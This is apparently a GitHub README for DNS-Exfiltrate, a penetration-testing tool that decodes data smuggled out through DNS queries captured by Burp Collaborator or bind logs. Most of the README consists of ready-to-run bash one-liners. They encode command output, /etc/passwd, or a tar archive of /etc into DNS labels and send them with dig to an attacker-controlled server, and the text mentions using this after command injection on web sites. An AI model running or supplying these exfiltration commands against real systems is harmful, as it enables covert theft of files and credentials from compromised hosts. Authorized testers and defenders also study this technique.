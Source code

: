 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (and can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

For `base32`, the `-w63` flag specifies line wrapping at 63 bytes. For `xxd` (hex): the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

### Send STDOUT from a command

#### base32
```
ifconfig | base32 -w63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode the output
```
dns-parse.py <DNS Name> (query.log|collaborator.log)
```

### Exfiltrate a file

#### base32
```
base32 -w63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode the file
```
dns-parse.py <DNS Name> (query.log|collaborator.log)
```

### Exfiltrate a compressed file:

#### base32
```
gzip - < /etc/passwd | base32 -w63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode/unzip the file
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

#### base32
```
tar czf - /etc | base32 -w63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode/save the tar archive
```
dns-parse.py <DNS Name> (query.log|collaborator.log) > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration via base32):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration via base32):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration via base32):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | zcat
```
